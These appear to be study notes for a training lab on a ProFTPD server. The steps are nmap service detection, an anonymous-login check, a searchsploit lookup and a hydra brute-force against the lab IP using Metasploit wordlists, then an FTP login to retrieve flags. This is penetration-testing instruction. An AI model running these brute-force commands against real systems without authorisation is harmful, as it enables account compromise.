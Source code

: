 # 🔬FTP

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.209.45.3`
>  - **Brute-force** of [ProFTP](http://www.proftpd.org/) server
>  - **Enumeration, nmap brute-force and flags** have been already covered in this [FTP Enum lab](../../../assessment-methodologies/3-enumeration/ftp-enum.md)

```bash
nmap -sV 192.209.45.3
```

```
21/tcp open  ftp  ProFTPD 1.3.5a
```

- Check anonymous login and inherent vulnerabilities

```bash
ftp 192.209.45.3
# anonymous login failed
```

```
ls -al /usr/share/nmap/scripts | grep ftp-*
```

![](.gitbook/assets/image-20230319162253807.png)

```bash
searchsploit ProFTPD
# check exploits for the specific version
```

### Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp
```

![](.gitbook/assets/image-20230319162826368.png)

- Try to connect with FTP and found credentials and retrieve every user's flag:

```bash
ftp 192.209.45.3
```

------

